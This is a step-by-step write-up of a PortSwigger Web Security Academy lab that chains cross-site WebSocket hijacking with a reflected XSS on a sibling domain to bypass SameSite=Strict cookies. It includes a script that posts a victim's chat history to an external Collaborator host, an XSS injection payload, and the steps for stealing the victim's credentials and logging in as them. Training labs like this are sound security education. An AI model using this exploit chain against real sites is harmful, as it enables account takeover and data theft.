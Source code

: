 # Lab 9: SameSite Strict bypass via sibling domain

## ✅ Lab Objective

**Exploit a CSWSH vulnerability to retrieve the victim's chat history and extract their credentials.**

---

## 🧪 Step-by-Step Solution

### 🔍 Study the Live Chat Feature

- 💬 **Interact with the chat:**
    - In Burp's browser, open the **live chat feature** and send a few messages.
- 📜 **Inspect the WebSocket handshake:**
    - Go to **Proxy > HTTP history** in Burp.
    - Look for the latest `GET /chat` request — this is the **WebSocket handshake**.
    - 📌 Notice that **no unpredictable tokens** are used → possible CSWSH vulnerability.
- 🔄 **Refresh the chat page:**
    - Go back to the browser and refresh the live chat page.
    - Open **Proxy > WebSockets history** in Burp.
    - 📨 Notice that the browser sends a `READY` message.
    - 📥 The server responds with the **entire chat history**.

---

### ✅ Confirm the CSWSH Vulnerability

- 📋 **Get a Collaborator payload:**
    - Go to **Burp > Collaborator tab** and click **Copy to clipboard**.
- 🧬 **Create a CSWSH proof-of-concept (PoC):**
    - In the **exploit server**, paste the following script:
        
        ```html
        <script>
            var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
            };
        </script>
        
        ```
        
- 👀 **Test it:**
    - Store and view the exploit.
    - Poll Burp Collaborator.
    - ✔️ If an HTTP interaction is shown, the PoC **successfully connected** to the chat.
- 🚫 **Limitation:**
    - The chat history is only for **a new session**, not the victim’s.
- 🔍 **Inspect the handshake request:**
    - Go to **Proxy > HTTP history** and check the `GET /chat` request made by your PoC.
    - 🚫 It does **not contain your session cookie**.
- 🍪 **Cookie restriction identified:**
    - The server sets cookies with `SameSite=Strict`.
    - ❌ Prevents sending cookies in cross-site WebSocket requests.

---

### 🧠 Identify an Additional Vulnerability in the Same "Site"

- 🔎 **Look for sibling domain exposure:**
    - In Burp Proxy history, observe the `Access-Control-Allow-Origin` headers in some responses.
    - 🧭 Discover a sibling domain:
        
        `cms-YOUR-LAB-ID.web-security-academy.net`
        
- 🔐 **Check for XSS:**
    - Open the URL in a browser.
    - Submit arbitrary login credentials.
    - 👁️ The **username is reflected** in the response.
- 💥 **Inject XSS:**
    - Try payload: `<script>alert(1)</script>`
    - ✅ Alert is triggered → **Reflected XSS confirmed.**
- 📤 **Modify the request:**
    - Send the `POST /login` with payload to **Burp Repeater**.
    - Change the method to `GET` → still works.
    - Copy and open the URL → XSS triggers.
- 🧩 **Why this matters:**
    - This sibling domain is **part of the same site**.
    - Using this XSS avoids the `SameSite=Strict` issue.

---

### 🛠️ Bypass SameSite Restrictions

- 💻 **Rebuild CSWSH script:**
    
    ```html
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>
    
    ```
    
- 🧵 **URL encode the script** (use any online encoder).
- 🧠 **Trigger XSS using the encoded script:**
    
    ```html
    <script>
        document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
    </script>
    
    ```
    
- 💾 **Store and view the exploit.**
- 📬 **Poll Collaborator:**
    - You’ll receive multiple new **interactions**.
    - These contain the **entire chat history** of the current session.
- 🍪 **Verify session cookie:**
    - Go to Proxy > HTTP history.
    - Check the new `GET /chat` WebSocket request.
    - ✅ This time, the request **includes the session cookie**.

---

### 🚀 Deliver the Exploit Chain

- 🎯 **Send the final exploit to the victim** using the exploit server.
- 📥 **Poll Burp Collaborator:**
    - You should receive new HTTP interactions.
    - These include the **victim’s chat history**.
- 🔐 **Extract credentials:**
    - Locate a message in the chat history with the **victim’s username and password**.
- 🔓 **Log in as the victim.**
- 🎉 **Lab Solved!**

---

## 📺 Community Solution

> 🔗 [Watch the walkthrough video](https://youtu.be/8RmZ1PbNZ7Y)
>